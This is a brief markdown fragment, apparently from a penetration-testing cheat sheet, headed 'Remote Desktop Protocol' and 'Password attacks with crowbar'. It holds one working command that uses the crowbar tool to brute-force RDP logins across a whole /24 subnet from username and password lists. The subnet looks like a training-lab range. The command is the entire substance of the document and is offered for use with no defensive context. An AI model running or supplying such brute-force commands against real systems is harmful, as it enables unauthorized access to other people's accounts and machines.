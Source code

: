 # Remote Desktop Protocol

## Password attacks with crowbar

```
crowbar -b rdp -s 10.11.1.0/24 -U ../usernames.txt -C ../passwords.txt -n 1 -d
```
